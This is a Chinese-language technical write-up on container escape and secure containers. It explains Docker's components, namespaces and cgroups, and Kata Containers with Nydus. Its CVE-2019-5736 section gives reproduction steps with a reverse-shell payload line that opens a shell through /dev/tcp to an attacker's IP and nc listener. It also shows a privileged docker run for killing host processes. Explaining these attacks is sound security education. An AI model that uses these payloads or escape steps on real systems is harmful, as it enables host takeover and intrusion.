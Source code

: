 # 容器逃逸与安全容器
## Docker运行流程
Docker由Docker-Client,dockerd,containerd,docker-shim,runc组成。

![](images/docker.png)

- docker-client：docker命令行，负责接收用户命令；
- dockerd: docker守护进程，监听请求并管理网络配置和存储卷资源；
- containerd: dockerd实际调用的还是containerd的api接口（grpc方式实现），containerd是dockerd和runc之间的一个中间交流组件;
- docker-shim: docker-shim是一个真实运行的容器的真实垫片载体，每启动一个容器都会起一个新的docker-shim的一个进程，通过指定容器id、buundle目录、运行时二进制来调用runc的api创建一个容器；
- runc:命令行工具端，他根据oci（开放容器组织）的标准来创建和运行容器；

**流程**：Docker CLI将run命令及参数通过REST API传给dockerd，dockerd根据请求拉取并验证镜像，之后将控制权交给containerd去创建容器，之后containerd设置容器环境（文件系统，网络）。然后，containerd会使用shim进程将容器的运行委托给runc创建并启动容器。容器运行时，containerd将监视容器状态并相应地管理生命周期。

## Namespace和Cgroup
### Namespace
Namespace将内核的全局资源进行封装，使每个Namespace有一份独立资源，不同进程在各自的Namespace内对同一种资源的使用不会相互干扰。Docker 通过Linux namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。
| Namespace 类型 | 隔离的资源                                  | 作用描述                                                                 |
|---------------|--------------------------------------------|--------------------------------------------------------------------------|
| **IPC**       | System V IPC 和 POSIX 消息队列              | 隔离进程间通信机制（如信号量、共享内存、消息队列），防止跨容器干扰。               |
| **Network**   | 网络设备、协议栈、端口、路由表等             | 每个容器拥有独立的网络接口、IP 地址、防火墙规则等，实现网络隔离。                 |
| **Mount**     | 文件系统挂载点                              | 隔离文件系统挂载信息，使容器无法访问宿主机或其他容器的挂载点（如 `/proc`、`/sys`）。 |
| **PID**       | 进程 ID (PID)                              | 容器内只能看到自己的进程树，无法查看或操作宿主机或其他容器的进程。                  |
| **UTS**       | 主机名 (Hostname) 和域名 (NIS Domain Name) | 允许容器独立设置主机名，不影响宿主机或其他容器。                                |
| **User**      | 用户 ID (UID) 和组 ID (GID)                | 隔离用户权限，容器内 root 用户可被映射到宿主机非 root 用户（增强安全性）。  

部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

| 启动参数              | 影响的 Namespace       | 授予的权限或行为                          |
|-----------------------|------------------------|-------------------------------------------|
| `--cap-add=SYS_ADMIN` | 无直接绕过             | 允许容器执行 `mount` 等特权操作，可能导致文件系统挂载逃逸 |
| `--net=host`          | Network Namespace      | 容器直接使用宿主机的网络栈（共享网络接口、端口等）     |
| `--pid=host`          | PID Namespace          | 容器可看到宿主机上的所有进程                       |
| `--ipc=host`          | IPC Namespace          | 容器与宿主机共享进程间通信资源（如信号量、共享内存等）  |

示例：使用`docker run –it –pid=host --cap-add=CAP_KILL ubuntu /bin/bash`可以实现在容器中杀死宿主机的进程。

### Cgroup
Cgroup是内核提供的一种资源隔离的机制，可以实现对进程所使用的cpu、内存物理资源、及网络带宽等进行限制。还可以通过分配的CPU时间片数量及磁盘IO宽带大小控制任务运行的优先级。系统中的进程（任务）创建子进程（任务）时，该子任务自动成为其父进程所在cgroup的成员。在docker中，cgroup用来确保一个容器只能使用被分配的资源量，避免某个容器因为过度消耗资源而影响到其他容器或主机系统的稳定性。

![](images/cgroup.png)

图中task1分配到cgroup_2的内存资源，cgropu_3的cpu资源，其子进程task2和task3也最多只能使用cgroup_2的内存资源和cgropu_3的cpu资源。

在Docker中，默认情况下，没有对CPU和内存资源进行硬性限制，若要进行硬性限制，则在启动容器时需要，例如：
```
docker run -it --rm --memory=“512m” \
 --memory-swap=“1g” \
 --cpus=“1.5“ \ 
mycontainer
```

## 容器逃逸类型
容器逃逸指的是攻击者利用容器中的漏洞或配置错误，突破容器的隔离机制，从而访问宿主机或其他容器内的资源。
- （系统层）内核漏洞：指由于内核漏洞导致的容器逃逸问题，例如：如果宿主机的Linux内核存在安全漏洞，攻击者可能利用这些漏洞从容器内部执行恶意代码，从而获取宿主机上的权限；
- （服务层）软件设计不当：指由于运行时漏洞导致的容器逃逸问题，Docker是一个容器化平台，它包含了docker软件本身以及runc和containerd等核心组件，这些组件本身也可能存在漏洞，攻击者可以利用这些漏洞来进行容器逃逸。
- （用户层）特权模式与配置不当：指由于容器实例使用的危险配置、危险挂载导致的容器逃逸，例如：容器使用了不安全的卷挂载，或者容器以过高的权限运行，都可能被攻击者利用来实现容器逃逸；

### 服务层容器逃逸案例（CVE-2019-5736）
2019年2月11日，runC的维护团队报告了一个新发现的漏洞，SUSE Linux GmbH高级软件工程师Aleksa Sarai公布了影响Docker, containerd, Podman, CRI-O等默认运行时容器runc的严重漏洞CVE-2019-5736。漏洞会对IT运行环境带来威胁，漏洞利用会触发容器逃逸、影响整个容器主机的安全，最终导致运行在该主机上的其他容器被入侵。漏洞影响AWS, Google Cloud等主流云平台。
- 影响版本：docker version <= 18.09.2, runc <= 1.0-rc6
- 漏洞链接：https://github.com/Frichetten/CVE-2019-5736-PoC
- 复现方式：将Poc代码中main.go 文件中payload变量定义为`var payload="#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1"`(其中<ip>指攻击者机器的ip)，之后在受害者机器上编译执行main.go，然后在攻击者机器上开启nc监听，监听<port>端口，再次在受害者机器上进入或启动容器时，攻击者机器就可以拿到受害者机器的shell控制权；
- 漏洞原理：攻击者可以通过修改容器内部某个可执行文件的方式，获取到宿主机上 runc 可执行文件的文件句柄（file descriptor）。随后，攻击者可以利用该句柄对原始的 runc 文件进行覆盖操作，将其替换为一个受控的恶意文件；

![](images/cve.png)

## Kata Containers
Kata Containers项目最初由Hyper.sh的runV项目与Intel的Clear Container合并而来，并于2017年开源。它的核心思想是，为每一个容器运行一个独立虚拟机，从而避免其与宿主机共享内核。即使攻击者在容器内部成功利用了内核漏洞攻破内核，他依然被限制在虚拟机内部，无法逃逸到宿主机上。
![](images/kata.png)
和Docker一样，Kata Container1.0也包含containerd、containerd-shim，还额外包含的组件如下：
- kata-shim：kata容器的容器进程运行在虚拟机中，虚拟机和host之间是隔离的，container-shim无法监控到kata容器进程的生命状态，所以使用kata-shim进行中转；
- kata-runtime：负责调用底层虚拟化技术（如qemu）来启动虚拟机；
- kata-proxy：转发来自kata runtime的请求到VM的kata-agent；
- kata-agent：负责实际的容器生命周期管理和资源配置（创建新容器，调整资源配置）;

### Nydus镜像加速系统

传统的Docker镜像在分发和使用过程中会存在以下问题：
- 启动速度慢：由于需要下载并解压整个镜像层才能启动容器，导致容器启动时间长；
- 存储效率低下：某个文件在Upper层里被删除或修改，文件依然留在Lower层，它们仍然占用存储空间；
- 镜像与镜像之间存在重复数据：不同镜像文件不共享；

针对以上问题，Kata Containers 3.0提出了Nydus镜像加速系统，其核心思想为按需加载和共享重复块：
- 按需加载：采用"运行时按需获取"架构，容器启动时仅下载元数据（约30KB的bootstrap文件），当容器访问特定文件时，才从仓库下载对应的数据块（chunk）；
- 共享数据块：最小单位为数据块（chunk），可跨镜像共享基础层数据块。例如，若上传了一个Ubuntu镜像到远端仓库，之后想基于Ubuntu构建一个Python镜像和一个Nginx镜像，可以通过--base-bootstrap=bootstrap_xxx.json来引用远程Ubuntu镜像中的数据块chunks，之后进行新镜像的构建，在上传镜像时只上传新增的Chunks。

# 参考链接
https://www.docker.com/blog/containerd-vs-docker/
https://www.cnblogs.com/xiaozi/p/13423853.html
https://www.thebyte.com.cn/container/CRI-in-Kubernetes.html
https://www.lixueduan.com/posts/docker/03-container-core/
https://juejin.cn/post/7096115284875935781
https://www.infoq.cn/article/dgbkj0dwftxeusp64dk9
https://www.ctyun.cn/developer/article/531766025101381

